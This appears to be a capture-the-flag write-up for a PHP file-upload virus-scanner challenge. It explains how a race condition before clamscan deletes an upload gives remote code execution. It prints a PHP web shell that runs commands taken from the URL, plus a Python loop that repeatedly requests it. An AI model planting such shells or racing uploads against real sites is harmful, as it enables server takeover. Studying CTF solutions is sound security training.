 # V1RUSCHECK0R3000

We are given a website where we are able to look into the source code. After some investigation, I found out that the site lets you upload a file not bigger than 100 bytes, scan it using clamscan and then tell you if the file is a virus or not. 

After taking a closer look at the code, I saw this function:

```php
function hasVirus($file_path) {
    # Check for Virus
    $argument = escapeshellarg($file_path);
    exec("clamscan $argument", $output, $retval);
    
    if ($retval != 0) {
        return true;
    } 
    return false;
}
```

I thought that maybe escapeshellarg is the exploitable part but after quite some time researching I discarded this approach. After that, I tried running clamscan myself to see if there are any possible arguments, that would give me something useful but also no luck there.

While looking at the manual though, I got the idea to upload a shell and then copy it into a directory in which it won't get deleted but that will obviously not work as there is no bypass for escapeshellarg. While trying clamscan I noticed that it doesn't work instantly...

Then I remembered a challenge from another CTF in which I had a small timeframe to upload a shell before it gets deleted... and after some trying around I got RCE!!

To make fast enough requests, I used this python code:

```py
import requests

while True:
    r = requests.get("http://viruscheckor.rumble.host/uploads/shell.php?cmd=whoami")
    if not "The requested URL /uploads/shell.php was not found on this server." in r.text:
        print(r.text)
```

With the basic php shell: 

```php
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
```

And after searching for a bit I finally found the flag: `cat ../flag.php`